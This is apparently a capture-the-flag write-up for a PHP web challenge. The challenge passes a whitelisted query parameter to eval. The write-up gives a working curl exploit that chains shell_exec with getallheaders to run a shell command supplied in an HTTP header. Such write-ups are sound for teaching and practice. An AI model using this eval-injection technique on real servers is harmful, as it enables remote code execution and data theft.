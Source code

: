 # HPNY (web 100)
> Get some lucky word or number for your new year!

First thing to do is visit URL without a query parameter to see the source.

Relevant code:
```php
$wl = preg_match('/^[a-z\(\)\_\.]+$/i', $_GET["roll"]);

if($wl === 0 || strlen($_GET["roll"]) > 50) {
    die("bumbadum badum");
}
eval("echo ".$_GET["roll"]."();");
```

Our input is `exec`'d after being filtered to only have `[a-z()_.]`.
We can call arbitrary methods but only pass a single paramter if any. My first idea was to be able to get data in from another source and pass it into `shell\_exec.`

We can do this by extracting the last element of getallheaders() and passing our command as the header.

```
curl "http://192.46.227.32/?roll=shell_exec(end(getallheaders())).time" -H "a: cat *"
```

First blood!
